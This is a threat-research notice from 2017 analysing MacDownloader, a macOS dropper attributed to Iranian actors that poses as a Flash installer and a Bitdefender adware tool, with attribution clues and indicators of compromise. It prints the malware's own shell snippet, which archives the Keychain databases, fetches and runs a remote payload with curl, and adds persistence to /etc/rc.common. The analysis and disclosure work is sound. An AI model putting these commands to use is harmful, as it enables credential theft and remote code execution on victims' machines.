

<!DOCTYPE HTML>
<!--
    Ion by TEMPLATED
    templated.co @templatedco
    Released for free under the Creative Commons Attribution 3.0 license (templated.co/license)
-->
<html>
<head>
    <title>iKittens: Iranian Actor Resurfaces with Malware for Mac (MacDownloader)</title>
    <meta http-equiv="content-type" content="text/html; charset=utf-8" />
    <meta name="description" content="" />
    <meta name="keywords" content="" />
    <meta name="twitter:card" content="summary">

    <meta name="twitter:url" content="https://iranthreats.github.io/resources/macdownloader-macos-malware/">
    <meta name="twitter:title" content="iKittens: Iranian Actor Resurfaces with Malware for Mac (MacDownloader)">
    <meta name="twitter:description" content="A macOS malware agent, named MacDownloader, was observed in the wild as targeting the defense industrial base, and reported elsewhere to have been used against an human rights advocate.">
    <meta name="twitter:image" content="https://iranthreats.github.io/resources/macdownloader-macos-malware/images/macdownloader-icon-twitter.png">

    <!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
    <script src="/js/jquery.min.js"></script>
    <script src="/js/skel.min.js"></script>
    <script src="/js/skel-layers.min.js"></script>
    <script src="/js/init.js"></script>
    <noscript>
        <link rel="stylesheet" href="/css/skel.css" />
        <link rel="stylesheet" href="/css/style.css" />
        <link rel="stylesheet" href="/css/style-xlarge.css" />
    </noscript>
    <style>
      pre {
        font-size: 0.6em;
        overflow-x: scroll;
      }
    </style>
</head>
    <body id="top">

        <!-- Header -->
        <header id="header" class="skel-layers-fixed">
            <h1><a href="#">Iran Threats</a></h1>
            <nav id="nav">
                <ul>
                    <li><a href="/">Home</a></li>
                </ul>
            </nav>
        </header>

        <!-- Main -->
            <section id="main" class="wrapper style1">
                <!-- <header class="major">
                </header> -->
                <div class="container">
                    <section id="english-content">
                        <h2>iKittens: Iranian Actor Resurfaces with Malware for Mac (MacDownloader)</h2>
                        <h4>Public Notice (6 February 2017)</h4>
                        <h3>Summary</h3>
                        <p>A macOS malware agent, named MacDownloader, was observed in the wild as targeting the defense industrial base, and reported elsewhere to have been used against an human rights advocate. MacDownloader strangely attempts to pose as both an installer for Adobe Flash, as well as the Bitdefender Adware Removal Tool, in order to extract system information and copies of OS X keychain databases. Based on observations on infrastructure, and the state of the code, we believe these incidents represent the first attempts to deploy the agent, and features such as persistence do not appear to work. Instead, MacDownloader is a simple exfiltration agent, with broader ambitions.</p>
                        <p>The macOS malware also mirrors the approach of the ExtremeDownloader dropper previously documented in our research, and samples of the latter identified during this time used the same infrastructure. Lastly, the exposure of test victim data and code references provide a unique insight into the development of the malware, with potential connections to agents developed by long dormant threat groups.</p>
                        <p>Since the  <a href="https://iranthreats.github.io/us-16-Guarnieri-Anderson-Iran-And-The-Soft-War-For-Internet-Dominance-paper.pdf">Technical Preview of our forthcoming Carnegie Endowment publication</a> about state-sponsored espionage campaigns was released at Black Hat USA, we have continued to disclose information about current Iranian activities in order to promote public education and to provide indicators of compromise. While this agent is neither sophisticated nor full-featured, its sudden appearance is concerning given the popularity of Apple computers with certain community, and inaccurate perceptions about the security of those devices.</p>

                        <h3>Background</h3>
                        <p>Since the start of the Iran Threats posts, we have documented an ever-changing array of malware agents targeting Windows and Android devices in order to exfiltrate files and record keystrokes from victims. While Windows remains the dominant operating system in the world, many communities have shifted over to macOS in the interest of security and stability. However, much of the added security afforded to macOS users stems from an expectation of Windows by attackers and less readily-available remote access tools for the OS, rather than better in-built defenses. Thus, macOS users are at risk of assuming greater protection against malware than actually exists, and could be more vulnerable as a result. One of these communities is the human rights community, especially those focused on Iran, which based on anecdotal experience is strongly dependent on Apple devices.</p>

                        <h3>Incident and Impact</h3>
                        <p>An active staging of the MacDownloader agent was first observed linked out from a site impersonating the aerospace firm "United Technologies Corporation," a spearphishing site was previously believed to be maintained by Iranian actors for spreading Windows malware. The page claimed to offer "Special Programs And Courses," specifically mentioning employees and interns of Lockheed Martin, Sierra Nevada Corporation, Raytheon and Boeing. The citation of the aforementioned companies also aligned with known targeting of spearphishing campaigns by the same group. The host used to stage the malware had also previously been used to deploy the BeEF framework on subdomains that appeared as a dental office and a U.S. Air Force basic training page.</p>
                        <p style="clear: both"></p>
                        <p>Counterintuitively, the bait to download the agent features a French-language warning in the place of a video player that informs the visitor that the "plugin has security flaws," with a link to activate Adobe Flash. MacDownloader is the first spearphishing attempt we have observed that honestly informs its target about its malicious nature. The target will be provided either Windows or Mac malware based on the detected operating system, with Windows clients provided a dropper written in Go. The packaging of the MacDownloader sample also provides further indication of its Iranian origin through its name, "addone flashplayer.app," which would suggest that a Persian-language speaker named the file based on grammar. The continuity of certain infrastructure and trends in targeting suggest a relationship to the Charming Kitten actor group, believed to based in Iran and connected to Iranian security entities.</p>
                        <p style="clear: both">
                            <div class="row">
                              <div class="6u"></div>
                              <div class="6u"></div>
                            </div>
                        </p>

                        <h3>MacDownloader</h3>
                        <p>The malware utilized in these attacks is a macOS-specific dropper (a 64-bit Mach-O binary) named MacDownloader based on strings from the development environment that are embedded in the binary. MacDownloader seems to be poorly developed and created towards the end of 2016, potentially a first attempt from an amateur developer. In multiple cases, the code used has been copied from elsewhere. The simple activity of downloading the remote file appears to have been sourced from a cheat sheet. The main purpose of MacDownloader seems to be to perform an initial profiling of the infected system and collection of credentials from macOS’s Keychain password manager – which mirrors the focus of Windows malware developed by the same actors.</p>
                        <p>At the time of writing, MacDownload appears completely undetected by virus scanning engines on VirusTotal, which suggests that consumer antivirus software may have difficulty detecting the agent.</p>
                        <p style="clear: both; text-align: center">
                            <div class="row">
                              <div class="12u" style="text-align: center"></div>
                            </div>
                        </p>
                        <p>With this particular build of MacDownloader, a fake Adobe Flash Player dialog is displayed upon execution, prompting the victim to click on an "Update Flash-Player" button. Interestingly, clicking on the "Close" button does in fact make the application exit. After the victim would have successfully clicked on the Update button, the following fake dialog is displayed, announcing that adware was discovered on the computer and that the application was in the process of cleaning it up.</p>
                        <p>This dialog is a bit surprising and confusing, particularly considering that the pretense of this build of MacDownloader is to rather be a Flash Player update, not antivirus software. This incongruity was soon explained when we noticed that in the resources of the malicious application there was a NIB file (which is a stored user interface design for Mac applications) that seems to not have been used in this particular build. These dialogues are also rife with basic typos and grammatical errors, indicating that the developer paid little attention to quality control. We believe MacDownloader was originally designed as a fake virus removal tool and in order to fit a particular social engineering attempt, it was later repackaged as a fake Flash Player update.</p>
                        <p style="clear: both">
                            <div class="row">
                              <div class="6u"></div>
                              <div class="6u"></div>
                            </div>
                        </p>
                        <p>The malware reads from the embedded Resources folder the "checkadr.txt," which contains the URL for the first beacon:</p>
                        <blockquote>http://46.17.97[.]37/Servermac.php</blockquote>
                        <p>The C2 used in this sample was taken down by a third party two weeks ago. Another resource  "eula-help.txt" appears to provide an internal development server address, and reflects the developer’s expectation of MacDownloader as simple a dropper.</p>
                        <blockquote>http://192.168.3.217/DroperTest</blockquote>
                        <p>Additionally, a file "appId.txt" provides what appears to be a unique identifier for the campaign tied to the agent. This identified is communicated to the C2 in exfiltrating data from the host. In the sample examined, and in the testing observed, this is set as ‘snc’ -- an identifier that would align with victims of concurrent spearphishing campaigns by the same group.</p>
                        <p>It appears that the application contains an unused attempt to install persistent access to the victim host. One segment provides a poorly-implemented shell script to save a response from the C2 and mark it for persistence by writing an entry in the /etc/rc.common file. In theory, every time the infected computer would start up, the shell script would be launched to download a file from a remote location, check if it changed from the previous iteration, and if so execute that new implant. While we haven’t managed to obtain a proper response from the server before it was taken offline, our initial investigation did not find a subsequent implant. In the course of testing, it did not appear that this code was executed, and instead calls to the remote server were made through Apple’s Core Services framework instead. Moreover, GET requests without parameters against the endpoint were observed to trigger PHP errors, rather than provide an implant. Therefore, we did not find immediate indication that MacDownloader was persistent, only that they intended to include remote updates and persistence as a feature.</p>
                        <pre>
do shell script "uname -a > /etc/checkdrive.chk"
zip -rj /etc/kcbackup.cfg /Library/Keychains/
echo "#!/bin/bash
curl -o /tmp/mastering-vim.pdf %@
md5 /tmp/mastering-vim.pdf | grep vim | cut -d- -f 2 > /etc/newf_md5.md5

if cmp /etc/newf_md5.md5 /etc/old_md5.md5
then
    #echo equal
    cp /etc/newf_md5.md5 /etc/oldf_md5.md5
    chmod +x /tmp/mastering-vim.pdf
    /tmp/mastering-vim.pdf
fi

" > /etc/.checkdev && if cat /etc/rc.common | grep .checkdev; then sleep 1; else echo "sleep %d && /etc/.checkdev &" >> /etc/rc.common; fi && chmod +x /etc/.checkdev && /etc/.checkdev with administrator privileges
                        </pre>
                        <p>In parallel, MacDownloader harvests information on the infected system, including the user’s active Keychains, which are then uploaded to the C2. The dropper also documents the running processes, installed applications, and the username and password which are acquired through a fake System Preferences dialog. Armed with the user’s credentials, the attackers would then be able to access the encrypted passwords stored within the Keychain database. While Chrome and Firefox do not store credentials in Keychain, Safari and macOS’s system service do save passwords to sites, remote file systems, encrypted drives, and other criteria resources there. The primary focus on retrieving stored passwords and recording keystrokes to capture passwords for online services is a common trend with custom Iranian malware. Using these passwords, the actors then access accounts to take permanent backups of victim’s emails, cloud files, and social networking activities. Windows agents used by the same group currently behave in the same manner – collecting the saved passwords and browser histories of Firefox and Chrome at the time of infection. One would anticipate this will appear in subsequent versions of MacDownloader.</p>
                        <p>All the harvested information is then compiled in a file stored at /tmp/applist.txt, and not removed after submission:</p>
                        <pre>
[
  "OS version:[UNAME OUTPUT]",
  "Root Username: \"[USER]\"",
  "Root Password: \"[PASSWORD]\"",
  "Keychains loaded in current user <NSAppleEventDescriptor: 'utxt'(\"    \\\"\/Users\/user\/Library\/Keychains\/login.keychain\\\"\r    \\\"\/Library\/Keychains\/System.keychain\\\"\")>",
  "Local ip address: [IP ADDRESS]",
  "Ifconfig: [IFCONFIG OUTPUT]",
  [
    [CONTENT OF /Applications]
  ],
  [
    ....
    "process name is: Bitdefender Adware Removal Tool\t PID: 17550  Run from: file:\/\/\/Users\/user\/Desktop\/addone%20flashplayer.app\/Contents\/MacOS\/Bitdefender%20Adware%20Removal%20Tool"
  ]
]
                        </pre>
                        <p>Once the execution completed, MacDownloader smoothly displays a dialog informing that the update of Flash Player has completed. Needless to say, no Flash Player was installed or updated whatsoever.</p>

                        <h3>Origin and Development</h3>
                        <p>Within the metadata for the application (Info.plist), the MacDownloader contains unusual references that may provide insight into its development. The "Bundle identifier" property is set to "zenderod.Bitdefender-Adware-Removal-Tool," mirroring the secondary impersonation of Bitdefender by the agent. Under standard software development practices, the first component of the string is set to the name or company of the original developer, which in this case is "zenderod." Zenderod is evidently a reference to the Zayandeh Rood, a famous river that runs along Isfahan, Iran. Curiously, this shorthanded transliteration also aligns with the domain of Novin Pardaz Zenderod (zenderod.ir, now directs to npzr.ir), a software and hosting company in Isfahan. While the site does not note any expertise in macOS software development, the application would not require a sophisticated developer to produce and appeared to at one point use shell scripts to function, which is within their stated expertise. We contacted an individual listed as the administrative contact for Novin Pardaz Zenderod, and they denied producing macOS software or association with the malware.</p>
                        <p>Additionally, the "Readable Copyright" property, which displays the copyright information available in the About dialogue, is set to "Copyright © 2015 Mamedof. All rights reserved." The outdated copyright suggests that the malware’s developer copied the template from another project. We were unable to find another application that contained the name in the copyright, indicating that it could be from a more obscure application or previous work of the developer.</p>
                        <p>In the binary, we find a number of strings that indicate the username of the developer of MacDownloader within filesystem paths embedded by XCode. These strings suggest that the developer’s first name is Shayan, and provides the previously cited project name.</p>
                        <blockquote>
                          /Users/<strong>shayan</strong>/Desktop/<strong>MacDownloader</strong>/MyApp3/<br />
                          /Users/<strong>shayan</strong>/Library/Developer/Xcode/DerivedData/<strong>Adware_Removal_Tool</strong>-frnnuqjzajnllqgzakkslsovdhag/Build/Intermediates/Adware Removal Tool.build/Debug/Adware Removal Tool.build/Objects-normal/x86_64/AppDelegate.o
                        </blockquote>
                        <p>Uniquely, in the course of testing the malware agent, one of the malware operators appears to have infected a MacBook Pro. In doing so, the malware agent uploaded both system information and OS X Keychain databases to the C2 for a user "Ultrone" and with password "saeed" -- presumably another name. While sparse, the uploaded Keychains provide some clues about the social relationships and tactics of the actor through VPN credentials and Wifi network records.</p>
                        <p style="clear: both; text-align: center">
                            <div class="row">
                              <div class="12u" style="text-align: center"></div>
                            </div>
                        </p>
                        <p>Of particular note are wireless networks named Jok3r and mb_1986. <a href="http://zone-h.org/archive/notifier=jok3r?zh=1">Jok3r</a> corresponds with a member of a defacement group, Iran Cyber Security Group, who continues to be fairly active in vandalizing sites. Iran Cyber Security Group also, as with many other defacement groups later identified as involved in state-aligned campaigns, <a href="http://www.iran-cyber.net/forums/threads/%D8%AF%D9%88%D8%B1%D9%87-%DB%8C-%D8%A2%D9%85%D9%88%D8%B2%D8%B4%DB%8C-%D8%A7%D9%85%D9%86%DB%8C%D8%AA-%D9%88-%D8%B1%D9%88%D8%B4-%D9%87%D8%A7%DB%8C-%D9%85%D9%82%D8%A7%D8%A8%D9%84%D9%87-%D8%A8%D8%A7-%D9%86%D9%81%D9%88%D8%B0-%D8%A8%D9%87-%D8%B5%D9%88%D8%B1%D8%AA-%D9%81%D8%A7%D8%B1%D8%B3%DB%8C-%D8%A8%D8%A7-%D8%B5%D8%AF%D8%A7-%D8%A7%D8%AE%D8%AA%D8%B5%D8%A7%D8%B5%DB%8C-%D8%A7%DB%8C%D8%B1%D8%A7%D9%86-%D8%B3%D8%A7%DB%8C%D8%A8%D8%B1.2565/">purports to provide commercial security services and penetration testing training</a>.</p>
                        <p>The "mb_1986" wireless name is more interesting, as it provides a connection to earlier Iranian campaigns, overlapping with the Flying Kitten actor group and subsequent malware activity in summer 2014. In <a href="https://totalhash.cymru.com/analysis/?0198d0610f656d77904e330458d8b6a9f9768696">earlier samples</a> of a malware agent dubbed <a href="http://pwc.blogs.com/cyber_security_updates/2014/09/malware-microevolution.html">"Sayad,"</a> multiple resources paths embedded in the malware reference development from a Windows environment running on the username "mb_1986." (Specifically, c:\Users\<strong>mb_1986</strong>\Desktop\Projects\Tiny_st\BlackBerry\obj\Debug\MSSUP.pdb). This username is also found within the system logs of an Iranian computer named "BORHAN" that was compromised multiple times by the Stealer malware between December 2013 and February 2014. BORHAN had a number of professional software development tools that reflect the administration and development trends of the actors (Subversion, VMWare vSphere, and Microsoft Visual Studio). The repetitive and short-lived compromises suggest that the host was a developer of the Stealer family, and that they continued to develop the platform beyond Operation Saffron Rose, which evolved into MiniSayad, and then socially interacted with the MacDownloader operators.</p>

                        <h3>Indicators of Compromise</h3>
                        <h4>Hashes</h4>
                        <p>
                        <div class="row">
              					  <div class="6u"><em>File Name</em></div>
              						<div class="6u"><em>Hash</em></div>
              					</div>
                        <div class="row">
              					  <div class="6u">addone flashplayer.app.zip</div>
              						<div class="6u">52efcfe30f96a85c9c068880c20663db64f0e08346e0f3b59c2e5bbcb41ba73c</div>
              					</div>
                        <div class="row">
              					  <div class="6u">Bitdefender Adware Removal Tool</div>
              						<div class="6u">7a9cdb9d608b88bd7afce001cb285c2bb2ae76f5027977e8635aa04bd064ffb7</div>
              					</div>
                        </p>
                        <h4>Network</h4>
                        <p>
                        <div class="row">
              					  <div class="12u">46.17.97[.]37</div>
              					</div>
                        <div class="row">
                          <div class="12u">officialswebsites[.]info</div>
                        </div>
                        <div class="row">
                          <div class="12u">utc.officialswebsites[.]info</div>
                        </div>
                        </p>
                    </section>
                    <section id="contact">
                        <h3>Contact</h3>
                        <h5>Claudio (nex@amnesty.org)</h5>
                        <ul>
                            <li>Fingerprint: E063 75E6 B9E2 6745 656C 63DE 8F28 F25B AAA3 9B12</li>
                        </ul>
                        <h5>Collin (cda@asc.upenn.edu)</h5>
                        <ul>
                            <li>PGP Key: <a href="https://cda.io/key.asc">https://cda.io/key.asc</a></li>
                            <li>Fingerprint: 510E 8BFC A60E 84B4 40EA 0F32 FAFB F2FA</li>
                        </ul>
                    </section>
                </div>
            </section>

        <!-- Footer -->
        <footer id="footer">
            <div class="container">
                <ul class="copyright">
                    <li><i class="fa fa-creative-commons" aria-hidden="true"></i> 2017, Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International</li>
                    <li>Ion Template by <a href="http://templated.co">TEMPLATED</a></li>
                </ul>
            </div>
        </footer>

    </body>
</html>
